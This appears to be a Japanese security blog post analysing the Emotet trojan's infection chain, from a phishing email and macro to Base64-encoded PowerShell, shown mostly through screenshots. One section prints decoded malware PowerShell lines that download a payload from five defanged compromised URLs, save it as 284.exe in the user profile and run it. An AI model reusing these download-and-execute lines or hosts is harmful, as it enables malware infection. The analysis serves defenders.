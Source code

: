 ```yaml
---
date: 2022-10-13T04:00:00
draft: false
title: "Emotet マルウェアの分析"
description: 
featured_image: "cdn/respond/emotet-malware-analysis-1.png"
tags: ["Emotet", "トロイの木馬", "PowerShell", "マルウェア", "サイバーセキュリティ"]
---
```


## Emotetとは？

- 主にメールを通じて拡散されるトロイの木馬
- 正規のメールのように偽装し、ユーザーに悪意のあるファイルをクリックさせる手法
- トロイの木馬を更新し、システムにアクセスを確立した後、運営者が追加ペイロードをダウンロードできるようにする「ローダー」型のマルウェア
- 感染したホストから銀行の資格情報を盗む、被害者から金銭を搾取することを目的に動作
<!--more-->
<br>

![emotet-malware-analysis](https://blog.plura.io/cdn/respond/emotet-malware-analysis-1.png)

## Emotet 実行/分析

### 1. ソーシャルエンジニアリング手法を用いて攻撃対象にメールを送信
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 攻撃対象が疑わず添付ファイルをダウンロード
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. ファイルを開き、マクロを実行するため「コンテンツの有効化」をクリック
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64でエンコードされたコードがPowerShellプロセスで実行される
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShellコマンドによってconhostが実行
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShellスクリプトコードの実行
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShellスクリプトコードの分析
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 以下のURLからファイルをダウンロード
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 以下のパスにファイルを保存
$env:userprofile\284.exe

3) 23931バイト以上の場合実行
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. ユーザーフォルダーにファイル生成
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

## [参考]
- https://en.wikipedia.org/wiki/Emotet<br>
- https://www.malwarebytes.com/emotet
